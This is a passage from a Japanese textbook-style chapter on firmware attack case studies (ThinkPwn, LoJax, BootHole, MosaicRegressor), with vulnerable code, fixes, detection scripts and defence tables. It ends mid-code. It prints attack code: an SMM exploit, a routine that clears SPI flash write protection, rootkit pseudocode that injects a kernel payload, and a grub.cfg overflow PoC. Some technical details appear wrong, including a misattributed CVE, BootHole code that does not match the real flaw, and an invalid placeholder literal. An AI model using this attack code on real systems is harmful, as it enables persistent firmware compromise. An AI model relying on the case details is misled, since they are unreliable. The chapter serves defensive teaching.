








# 攻撃事例から学ぶ設計原則

🎯 **この章で学ぶこと**
- 実際に発生したファームウェア攻撃の詳細分析
- 各攻撃から導かれるセキュリティ設計原則
- 脆弱性パターンの理解と対策手法
- Defense in Depth の実践的応用
- インシデントレスポンスとフォレンジック手法

📚 **前提知識**
- [UEFI Secure Boot の仕組み](03-secure-boot-architecture.md)
- [TPM と Measured Boot](04-tpm-and-measured-boot.md)
- [Intel Boot Guard の役割と仕組み](05-intel-boot-guard.md)
- [SMM の仕組みとセキュリティ](08-smm-security.md)

---

## セキュリティインシデント分析の重要性

ファームウェアセキュリティの設計原則は、理論だけでなく**実際の攻撃事例から学ぶ**ことが最も効果的です。過去10年間、ファームウェアを標的とした攻撃は、単なる概念実証（PoC）から、国家支援型の高度な攻撃（APT）へと進化してきました。これらの攻撃は、BIOS/UEFI の脆弱性を悪用し、OS やセキュリティソフトウェアでは検出できない永続的なバックドアを埋め込みます。本章では、**5つの重要なファームウェア攻撃事例**を詳しく分析し、そこから導かれる普遍的な設計原則を抽出します。これらの事例は、技術的な脆弱性だけでなく、組織的な対応の不備や、エコシステム全体の課題を浮き彫りにしています。

セキュリティインシデントから学ぶためには、**3つの視点**から分析する必要があります。まず、**技術的分析**では、脆弱性の根本原因を特定し、攻撃手法の詳細を理解し、検出・防御メカニズムの不備を明らかにします。具体的には、脆弱なコードパターン、攻撃コード（Exploit）、修正方法を詳細に検証します。次に、**組織的対応**では、脆弱性がどのように発見されたか、パッチ配布プロセスがどのように機能したか、エコシステム全体（OEM、OS ベンダー、ユーザー）への影響がどのように広がったかを分析します。ファームウェアの脆弱性は、単一のベンダーだけでなく、サプライチェーン全体に影響を及ぼすため、組織間の連携が極めて重要です。最後に、**設計原則の抽出**では、技術的対策（コーディング規約、アーキテクチャパターン）、プロセス改善（コードレビュー、テスト手法）、アーキテクチャ改善（多層防御、最小権限）といった、再発防止のための普遍的な原則を導き出します。

本章で扱う攻撃事例は、ファームウェアセキュリティの異なる側面を示しています。**ThinkPwn（CVE-2016-3287）** は、SMM ハンドラの入力検証の欠如により、OS レベルの権限から Ring -2 への権限昇格を可能にしました。**LoJax（2018）** は、史上初の野生で発見された UEFI ルートキットであり、SPI Flash への物理的な書き込みにより、OS の再インストールでも除去できない永続性を実現しました。**BootHole（CVE-2020-10713）** は、GRUB2 の脆弱性を悪用し、Secure Boot を完全にバイパスしました。この脆弱性は、数億台のデバイスに影響し、dbx 更新の困難さを露呈しました。**MosaicRegressor（2020）** は、ESP（EFI System Partition）に常駐するマルウェアであり、ファームウェアだけでなく、ブートパーティションも攻撃対象として監視する必要性を示しました。**Thunderspy（2020）** は、Thunderbolt の DMA 攻撃により、Boot Guard や Secure Boot を迂回し、物理アクセスの脅威を再認識させました。これらの事例を通じて、ファームウェアセキュリティの**多層防御**の重要性と、**信頼チェーンの最も弱い部分**が全体のセキュリティを決定することを学びます。

### 補足図：インシデントから学ぶべき3つの視点



---

## Case Study 1: ThinkPwn (CVE-2016-3287)

### 概要

**発生年**: 2016年
**影響範囲**: Lenovo ThinkPad/ThinkCentre/ThinkStation（数百万台）
**脆弱性タイプ**: SMM Privilege Escalation
**CVSS Score**: 7.2 (High)
**発見者**: Dmytro Oleksiuk (cr4sh)

### 脆弱性の詳細

Lenovo の SystemSmmRuntimeRt ドライバに、SMM 外部からの任意メモリ書き込みを許す脆弱性が存在しました。

#### 脆弱なコードパターン

```c
// SystemSmmRuntimeRt.c（脆弱なバージョン）
EFI_STATUS
EFIAPI
SmmRuntimeHandler (
  IN     EFI_HANDLE  DispatchHandle,
  IN     CONST VOID  *Context OPTIONAL,
  IN OUT VOID        *CommBuffer OPTIONAL,
  IN OUT UINTN       *CommBufferSize OPTIONAL
  )
{
  RUNTIME_FUNCTION_PARAM  *Param;

  // 1. CommBuffer のポインタ検証なし
  Param = (RUNTIME_FUNCTION_PARAM *) CommBuffer;

  // 2. DestAddress の検証なし（SMRAM外であることを確認していない）
  switch (Param->FunctionCode) {
    case RUNTIME_FUNCTION_SET_VARIABLE:
      // 3. 任意のアドレスへの書き込みを許可
      CopyMem (
        (VOID *) Param->DestAddress,  // 攻撃者が制御可能
        (VOID *) Param->SourceData,   // 攻撃者が制御可能
        Param->DataSize               // 攻撃者が制御可能
      );
      break;
  }

  return EFI_SUCCESS;
}
```

#### 攻撃シナリオ



#### 攻撃コード（PoC）

```c
// ThinkPwn exploit (simplified)
#include <ntddk.h>

typedef struct {
  UINT32  FunctionCode;
  UINT64  DestAddress;     // 書き込み先
  UINT64  SourceData;      // 書き込むデータ
  UINT32  DataSize;
} RUNTIME_FUNCTION_PARAM;

VOID ExploitThinkPwn(VOID) {
  RUNTIME_FUNCTION_PARAM  *Param;
  UINT64                  Cr3Value;

  // 1. CommBuffer を OS メモリに確保
  Param = AllocatePool(sizeof(RUNTIME_FUNCTION_PARAM));

  // 2. CR3 レジスタのアドレスを取得（物理アドレス）
  Cr3Value = __readcr3();

  // 3. ページテーブルを細工したデータを準備
  UINT64 MaliciousPageTable = PrepareMaliciousPageTable();

  // 4. SMI パラメータを設定
  Param->FunctionCode = RUNTIME_FUNCTION_SET_VARIABLE;
  Param->DestAddress  = 0x1000;  // CR3 が指すページテーブルエントリ
  Param->SourceData   = MaliciousPageTable;
  Param->DataSize     = 8;

  // 5. CommBuffer のアドレスを共有メモリに設定
  WriteToSmmCommunicationRegion(Param);

  // 6. SMI をトリガー
  __outbyte(0xB2, 0xXX);  // Lenovo 固有の SMI コマンド

  // 7. ページテーブルが改竄され、カーネルメモリに書き込み可能に
  WriteToKernelMemory(TARGET_ADDRESS, PAYLOAD, SIZE);
}
```

### 修正方法

```c
// SystemSmmRuntimeRt.c（修正版）
EFI_STATUS
EFIAPI
SecureSmmRuntimeHandler (
  IN     EFI_HANDLE  DispatchHandle,
  IN     CONST VOID  *Context OPTIONAL,
  IN OUT VOID        *CommBuffer OPTIONAL,
  IN OUT UINTN       *CommBufferSize OPTIONAL
  )
{
  RUNTIME_FUNCTION_PARAM  *Param;
  RUNTIME_FUNCTION_PARAM  LocalParam;
  EFI_STATUS              Status;

  // 1. CommBuffer 検証
  if (CommBuffer == NULL || CommBufferSize == NULL) {
    return EFI_INVALID_PARAMETER;
  }

  // 2. CommBuffer が SMRAM 外であることを確認
  if (!SmmIsBufferOutsideSmram(CommBuffer, sizeof(RUNTIME_FUNCTION_PARAM))) {
    DEBUG((DEBUG_ERROR, "CommBuffer points to SMRAM!\n"));
    return EFI_SECURITY_VIOLATION;
  }

  // 3. TOCTOU 攻撃を防ぐため、ローカルコピーを作成
  CopyMem(&LocalParam, CommBuffer, sizeof(RUNTIME_FUNCTION_PARAM));

  // 4. パラメータ検証
  if (LocalParam.DataSize > MAX_ALLOWED_SIZE) {
    return EFI_INVALID_PARAMETER;
  }

  // 5. DestAddress が SMRAM を指していないか確認
  if (!SmmIsBufferOutsideSmram(
        (VOID *)(UINTN)LocalParam.DestAddress,
        LocalParam.DataSize)) {
    DEBUG((DEBUG_ERROR, "DestAddress points to SMRAM!\n"));
    return EFI_SECURITY_VIOLATION;
  }

  // 6. 許可された操作のみ実行
  switch (LocalParam.FunctionCode) {
    case RUNTIME_FUNCTION_SET_VARIABLE:
      // 7. ホワイトリストで許可されたアドレス範囲のみ書き込み許可
      if (!IsAddressInAllowedRange(LocalParam.DestAddress)) {
        return EFI_ACCESS_DENIED;
      }

      CopyMem(
        (VOID *)(UINTN)LocalParam.DestAddress,
        (VOID *)(UINTN)LocalParam.SourceData,
        LocalParam.DataSize
      );
      break;

    default:
      return EFI_UNSUPPORTED;
  }

  return EFI_SUCCESS;
}
```

### 学んだ教訓

| 教訓 | 設計原則 | 実装方法 |
|------|---------|---------|
| SMM ハンドラは最小特権で動作すべき | Principle of Least Privilege | ホワイトリスト方式でアクセス可能なメモリ範囲を制限 |
| すべての外部入力を検証せよ | Input Validation | SmmIsBufferOutsideSmram() で徹底検証 |
| TOCTOU 攻撃を考慮せよ | Atomic Operations | ローカルコピーで処理 |
| 防御を多層化せよ | Defense in Depth | ポインタ検証 + サイズ検証 + 範囲検証 |

---

## Case Study 2: LoJax (2018)

### 概要

**発生年**: 2018年
**攻撃者**: APT28 (Fancy Bear, ロシア政府関連)
**影響範囲**: 東欧政府機関
**脆弱性タイプ**: UEFI Rootkit
**特徴**: 世界初の野生で確認された UEFI マルウェア

### 攻撃フロー



### 技術的詳細

#### Phase 1: SPI Flash 保護の解除

```c
// LoJax が使用した保護解除コード（逆コンパイル）
BOOLEAN DisableFlashProtection(VOID) {
  UINT32  BiosControl;
  UINT32  SpiBase;

  // 1. PCH の SPIBAR を取得
  SpiBase = PciRead32(PCI_LIB_ADDRESS(0, 31, 5, 0x10)) & 0xFFFFF000;

  // 2. BIOS Control Register を読み取り
  BiosControl = MmioRead8(SpiBase + R_PCH_SPI_BC);

  // 3. 保護ビットをクリア
  BiosControl |= B_PCH_SPI_BC_WPD;   // Write Protect Disable
  BiosControl |= B_PCH_SPI_BC_BIOSWE; // BIOS Write Enable
  BiosControl &= ~B_PCH_SPI_BC_BLE;   // BIOS Lock Disable

  // 4. 変更を書き込み
  MmioWrite8(SpiBase + R_PCH_SPI_BC, (UINT8)BiosControl);

  // 5. Protected Range レジスタをクリア
  for (int i = 0; i < 5; i++) {
    MmioWrite32(SpiBase + R_PCH_SPI_PR0 + (i * 4), 0);
  }

  return TRUE;
}
```

#### Phase 2: UEFI モジュールの挿入

LoJax は以下のモジュールを SPI Flash に書き込みました：

```
DXE Volume:
├── RwDrv.efi          ← 悪意のあるドライバ
│   ├── Protocol: gRwDrvProtocolGuid
│   └── Function: 任意のメモリ読み書き
│
└── RwLdr.efi          ← ローダー
    ├── Dependency: RwDrv.efi
    └── Function: OS カーネルにペイロード注入
```

**RwDrv.efi の疑似コード**:

```c
// RwDrv.efi - 任意メモリアクセスドライバ
EFI_STATUS
EFIAPI
RwDrvEntry (
  IN EFI_HANDLE        ImageHandle,
  IN EFI_SYSTEM_TABLE  *SystemTable
  )
{
  EFI_STATUS  Status;

  // 1. カスタムプロトコルをインストール
  Status = gBS->InstallProtocolInterface(
    &ImageHandle,
    &gRwDrvProtocolGuid,
    EFI_NATIVE_INTERFACE,
    &mRwDrvProtocol
  );

  // 2. ExitBootServices フックを設定
  Status = gBS->CreateEvent(
    EVT_SIGNAL_EXIT_BOOT_SERVICES,
    TPL_NOTIFY,
    OnExitBootServices,
    NULL,
    &mExitBootServicesEvent
  );

  return EFI_SUCCESS;
}

// OS 起動直前のフック
VOID
EFIAPI
OnExitBootServices (
  IN EFI_EVENT  Event,
  IN VOID       *Context
  )
{
  // 3. OS カーネルイメージを探索
  VOID  *KernelBase = FindKernelImage();

  // 4. カーネルの Import Address Table を改竄
  PatchKernelIAT(KernelBase);

  // 5. ペイロードを注入
  InjectPayload(KernelBase);
}
```

### 検出方法

#### chipsec による検出

```bash
# BIOS 保護状態の確認
sudo chipsec_main -m common.bios_wp

# UEFI モジュールのスキャン
sudo chipsec_main -m tools.uefi.scan_image -a dump

# 不審なモジュールの検出
sudo chipsec_main -m tools.uefi.whitelist -a generate,list.json
```

#### UEFI モジュールのハッシュ検証

```python
# verify_uefi_modules.py
import hashlib
import pefile

def verify_uefi_module(module_path, known_hashes):
    """UEFI モジュールのハッシュを既知のハッシュと比較"""
    with open(module_path, 'rb') as f:
        data = f.read()

    # Authenticode 署名を除いてハッシュ計算
    pe = pefile.PE(data=data)

    # Checksum と Certificate Table を除外
    cert_entry = pe.OPTIONAL_HEADER.DATA_DIRECTORY[
        pefile.DIRECTORY_ENTRY['IMAGE_DIRECTORY_ENTRY_SECURITY']
    ]

    if cert_entry.VirtualAddress > 0:
        unsigned_data = data[:cert_entry.VirtualAddress]
    else:
        unsigned_data = data

    module_hash = hashlib.sha256(unsigned_data).hexdigest()

    if module_hash not in known_hashes:
        print(f"[!] Unknown module: {module_path}")
        print(f"    SHA256: {module_hash}")
        return False

    return True

# ベンダー公式のハッシュリスト
KNOWN_HASHES = {
    "a1b2c3d4...": "LenovoSetup.efi",
    "e5f6g7h8...": "IntelGopDriver.efi",
    # ...
}

# すべての DXE ドライバを検証
for module in extract_dxe_modules("bios.bin"):
    verify_uefi_module(module, KNOWN_HASHES)
```

### 防御策

| レイヤー | 対策 | 実装 |
|---------|------|------|
| **ハードウェア** | SPI Flash 書き込み保護 | WP# ピンのプルダウン抵抗 |
| **ファームウェア** | Boot Guard 有効化 | OTP Fuse でプロビジョニング |
| **OS** | UEFI ランタイムサービス無効化 | `efi=noruntime` カーネルパラメータ |
| **検知** | インテグリティチェック | TPM Measured Boot + Remote Attestation |

### 学んだ教訓

1. **物理的な書き込み保護が必須**: ソフトウェアだけの保護は攻撃者が OS レベルの権限を取得すると無効化される
2. **Verified Boot の重要性**: Boot Guard/PSP によるハードウェアベースの検証が必要
3. **ホワイトリスト方式の採用**: 既知の正常なモジュールのみ実行を許可
4. **継続的な監視**: TPM PCR 値の定期的な検証が攻撃の早期発見につながる

---

## Case Study 3: BootHole (CVE-2020-10713)

### 概要

**発生年**: 2020年
**影響範囲**: Linux, Windows, ESXi, Xen（数億台）
**脆弱性タイプ**: GRUB2 Buffer Overflow → Secure Boot Bypass
**CVSS Score**: 8.2 (High)
**発見者**: Eclypsium

### 脆弱性の詳細

GRUB2 の設定ファイル (grub.cfg) パーサーにバッファオーバーフローが存在し、Secure Boot を迂回して任意コードを実行可能でした。

#### 脆弱なコード

```c
// grub-core/normal/main.c (脆弱なバージョン)
static grub_err_t
grub_cmd_set (struct grub_command *cmd __attribute__ ((unused)),
              int argc, char **args)
{
  char *var;
  char *val;
  char buf[1024];  // 固定サイズバッファ

  if (argc < 1)
    return grub_error (GRUB_ERR_BAD_ARGUMENT, "no variable specified");

  var = args[0];

  if (argc == 1) {
    val = grub_env_get (var);
    if (val)
      grub_printf ("%s=%s\n", var, val);
    else
      return grub_error (GRUB_ERR_FILE_NOT_FOUND, "variable not found");
  } else {
    // バッファオーバーフローの脆弱性
    grub_strcpy (buf, args[1]);  // サイズチェックなし！
    grub_env_set (var, buf);
  }

  return 0;
}
```

#### 攻撃シナリオ



#### PoC (Proof of Concept)

```bash
# grub.cfg に悪意のあるエントリを追加
cat <<EOF >> /boot/efi/EFI/ubuntu/grub.cfg
set some_var="$(python3 -c 'print("A" * 2000)')"
menuentry "Pwned Kernel" {
    linux /vmlinuz-pwned root=/dev/sda1
    initrd /initrd-pwned.img
}
EOF

# 次回起動時にバッファオーバーフローが発生
# リターンアドレスを制御し、任意のコードを実行
```

### 攻撃の成立条件

1. **書き込み権限**: ESP (EFI System Partition) への書き込み権限（通常は root）
2. **物理アクセス**: または OS レベルの管理者権限
3. **Secure Boot 有効**: パラドックスだが、Secure Boot が有効でないと攻撃の価値が低い

### 修正方法

```c
// grub-core/normal/main.c (修正版)
static grub_err_t
grub_cmd_set (struct grub_command *cmd __attribute__ ((unused)),
              int argc, char **args)
{
  char *var;
  char *val;

  if (argc < 1)
    return grub_error (GRUB_ERR_BAD_ARGUMENT, "no variable specified");

  var = args[0];

  // 変数名の長さチェック
  if (grub_strlen (var) > GRUB_ENV_VAR_MAX_LEN) {
    return grub_error (GRUB_ERR_BAD_ARGUMENT,
                       "variable name too long");
  }

  if (argc == 1) {
    val = grub_env_get (var);
    if (val)
      grub_printf ("%s=%s\n", var, val);
    else
      return grub_error (GRUB_ERR_FILE_NOT_FOUND,
                         "variable not found");
  } else {
    // 値の長さチェック
    if (grub_strlen (args[1]) > GRUB_ENV_VAL_MAX_LEN) {
      return grub_error (GRUB_ERR_BAD_ARGUMENT,
                         "variable value too long");
    }

    // 安全な文字列操作
    grub_env_set (var, args[1]);
  }

  return 0;
}
```

### エコシステム全体への影響

BootHole の修正には複雑な連鎖的対応が必要でした：



### 対応の課題

| 課題 | 詳細 | 解決策 |
|------|------|--------|
| **後方互換性** | 古い GRUB2 を dbx に追加すると古いシステムが起動不能 | 段階的な dbx 更新 + ユーザー通知 |
| **更新の遅延** | BIOS ベンダーの対応に時間がかかる | OEM からの定期的な更新推奨 |
| **組み込みシステム** | 更新メカニズムがないデバイスが多数存在 | ハードウェア交換が必要なケースも |
| **サプライチェーン** | 複数の主体（Microsoft, Canonical, OEM）が関与 | 調整されたリリーススケジュール |

### 学んだ教訓

1. **信頼の連鎖は最も弱い部分で破綻する**: Secure Boot の信頼チェーンの一部（GRUB2）が脆弱だと全体が無効化される
2. **設定ファイルも攻撃対象**: grub.cfg のような「データ」も入力検証が必須
3. **エコシステム全体での対応が必要**: 単一コンポーネントの修正では不十分
4. **dbx 管理の難しさ**: 失効リストの更新は慎重に行う必要がある

---

## Case Study 4: MosaicRegressor (2020)

### 概要

**発生年**: 2020年
**攻撃者**: 不明（高度な APT グループ）
**影響範囲**: アフリカ・アジアの外交官、NGO
**脆弱性タイプ**: UEFI Bootkit
**特徴**: 複数のファームウェアモジュールを組み合わせた高度な持続型攻撃

### 攻撃アーキテクチャ



### 技術的詳細

#### VectorEDK ドライバの動作

```c
// VectorEDK 疑似コード（解析結果）
EFI_STATUS
EFIAPI
VectorEntry (
  IN EFI_HANDLE        ImageHandle,
  IN EFI_SYSTEM_TABLE  *SystemTable
  )
{
  EFI_STATUS  Status;
  VOID        *Payload;
  UINTN       PayloadSize;

  // 1. SPI Flash から暗号化されたペイロードを読み取り
  Payload = ReadFromSpiFlash(PAYLOAD_OFFSET, &PayloadSize);

  // 2. 復号化（XOR ベースの簡易暗号）
  DecryptPayload(Payload, PayloadSize, HARDCODED_KEY);

  // 3. EFI System Partition に書き込み
  Status = WriteToEsp(L"\\EFI\\Microsoft\\Boot\\IntelUpdate.exe",
                      Payload,
                      PayloadSize);

  // 4. レジストリ Run キーに追加（OS 起動時に実行）
  Status = AddToStartup(L"IntelUpdate.exe");

  // 5. 痕跡を消去
  FreePool(Payload);

  return EFI_SUCCESS;
}

VOID
DecryptPayload (
  IN OUT UINT8  *Data,
  IN UINTN      Size,
  IN UINT32     Key
  )
{
  // 単純な XOR 暗号化
  for (UINTN i = 0; i < Size; i++) {
    Data[i] ^= (UINT8)(Key >> ((i % 4) * 8));
  }
}
```

#### 永続化メカニズム

1. **UEFI レベル**: SPI Flash に VectorEDK を埋め込み（OS 再インストールでも生存）
2. **OS レベル**: ESP に IntelUpdate.exe を配置（ディスク交換でも生存）
3. **プロセスレベル**: 正規プロセスへの DLL インジェクション（検出回避）

### 検出の難しさ

| 検出手法 | 結果 | 理由 |
|---------|------|------|
| ファイルシステムスキャン | ❌ 失敗 | ESP はデフォルトでマウントされない |
| アンチウイルス | ❌ 失敗 | UEFI 段階では AV は動作していない |
| ネットワーク監視 | △ 部分的 | 通信は暗号化され、正規トラフィックに偽装 |
| メモリフォレンジック | △ 部分的 | DLL インジェクションは正規プロセス内で動作 |
| chipsec スキャン | ✅ 成功 | UEFI モジュールの異常を検出可能 |

### フォレンジック手法

#### SPI Flash のダンプと解析

```bash
# 1. flashrom で SPI Flash をダンプ
sudo flashrom -p internal -r bios_dump.bin

# 2. UEFITool で UEFI ボリュームを抽出
UEFITool bios_dump.bin

# 3. 不審なドライバを検索
python3 uefi_scanner.py --input bios_dump.bin --suspicious

# 4. ドライバの逆アセンブル
objdump -D -b binary -m i386:x86-64 suspicious_driver.efi > driver.asm

# 5. 文字列解析
strings -el suspicious_driver.efi | grep -i "\.exe\|\.dll\|http"
```

#### 自動検出スクリプト

```python
# mosaic_detector.py
import os
import hashlib
import pefile

def check_esp_for_malware():
    """EFI System Partition をスキャン"""
    esp_paths = [
        "/boot/efi",
        "C:\\EFI",
        "/Volumes/EFI"
    ]

    suspicious_files = []

    for esp in esp_paths:
        if not os.path.exists(esp):
            continue

        for root, dirs, files in os.walk(esp):
            for file in files:
                if file.endswith('.exe') or file.endswith('.dll'):
                    full_path = os.path.join(root, file)

                    # MosaicRegressor の既知のハッシュと比較
                    file_hash = hashlib.sha256(
                        open(full_path, 'rb').read()
                    ).hexdigest()

                    if file_hash in KNOWN_MALWARE_HASHES:
                        suspicious_files.append((full_path, file_hash))

                    # PE ファイルのインポートテーブルを確認
                    try:
                        pe = pefile.PE(full_path)
                        for entry in pe.DIRECTORY_ENTRY_IMPORT:
                            dll_name = entry.dll.decode('utf-8').lower()

                            # 不審な API 使用パターン
                            if dll_name in ['wininet.dll', 'ws2_32.dll']:
                                for imp in entry.imports:
                                    if imp.name and b'Http' in imp.name:
                                        print(f"[!] Suspicious network API: "
                                              f"{full_path} -> {imp.name}")
                    except:
                        pass

    return suspicious_files

# 実行
results = check_esp_for_malware()
if results:
    print("[CRITICAL] Potential MosaicRegressor infection detected:")
    for path, hash_val in results:
        print(f"  - {path} (SHA256: {hash_val})")
```

### 防御策

```c
// UEFI ドライバのホワイトリスト検証
EFI_STATUS
EFIAPI
ValidateUefiDriver (
  IN EFI_HANDLE  ImageHandle
  )
{
